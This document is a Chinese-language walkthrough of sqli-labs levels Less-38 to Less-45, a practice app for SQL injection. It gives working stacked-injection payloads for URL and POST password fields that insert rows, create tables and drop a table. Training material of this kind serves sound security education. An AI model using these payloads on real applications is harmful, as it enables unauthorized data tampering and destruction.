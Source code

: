 # 十八、答题模式-Less-38~45

### Less-38

> 注意：我们应当先尝试正常输入输出，再使用 Hackbar 的 load url ，防止 excute 错地址，这里我们要注入的地址是 login.php 而不是index.php 。

学习了 stacked injection 的相关知识，我们在本关得到直接的运用。给出简单的插入payload: 

    ?id=1%27;insert%20into%20users(id,username,password)%20values%20(%2738%27,%27Less38%27,%27hello%27)--+
    
同样前端正常返回，且注入成功。


### Less-39

本关卡和Less-38的区别在sql语句的不同，本关卡没有对id进行 ' id ' 的处理，即本关卡是数字型注入，同样构造简单的插入payload: 

    ?id=1;insert%20into%20users(id,username,password)%20values%20(%2739%27,%27Less39%27,%27hello%27)--+
    
同样前端正常返回，且注入成功。


### Less-40

本关卡sql语句也基本一致，在处理上是进行了 ( ' id ' ) 的处理，给出payload: 

    ?id=1%27);%20insert%20into%20users(id,username,password)%20values(%2740%27,%27Less40%27,%27hello%27)%23
    
同样前端正常返回，且注入成功。


### Less-41

本关卡和Less-39是一致的，区别是在于本关卡错误不回显，因此是盲注。但是payload还是可以共用：

    ?id=1;insert%20into%20users(id,username,password)%20values(%2741%27,%27Less41%27,%27hello%27)%23
    
同样前端正常返回，且注入成功。


### Less-42

查看源码：

    $username = mysqli_real_escape_string($con1, $_POST["login_user"]);
    $password = $_POST["login_password"];
    
在此处 username 是经过 mysql_real_escape_string() 处理后的数据，存入到数据库不发生变化，因此这里和二次注入思路是不一样的。

由源码可知，password 变量在 post 过程中没有进行处理，所以我们可以在这里进行 attack 。

    username: 随意
    password: login_password=1';create table me like users--+&login_user=1 # 这里创建表成功
    password: login_password=1';drop table me--+&login_user=1 # 这里删除表成功

同样前端正常返回，且注入成功。


### Less-43

本关卡与Less-42关原理基本一致，区别处理为： ( ' password ') 。这里只给出示例payload: 
    
    login_password=1');create%20table%20less43%20like%20users--+&login_user=1

同样前端正常返回，且注入成功。


### Less-44

本关卡和Less-42是一致的，区别是在于本关卡错误不回显，因此是盲注。但是payload还是可以共用的：

    login_password=1';insert%20into%20users(id,username,password)%20values(%2744%27,%27Less44%27,%27hello%27)--+&login_user=1
    
同样前端正常返回，且注入成功。

> 注意：--+ 一定不能少，因为这里是sql注入，php后端还会有sql的后续语句，需要 --+/#/%23 的注释来完成构造。


### Less-45

本关卡和Less-42是一致的，区别是在于本关卡错误不回显，因此是盲注。但是payload还是可以共用的：

    login_password=1');insert%20into%20users(id,username,password)%20values(%2745%27,%27Less45%27,%27hello%27)--+&login_user=1
    
同样前端正常返回，且注入成功。

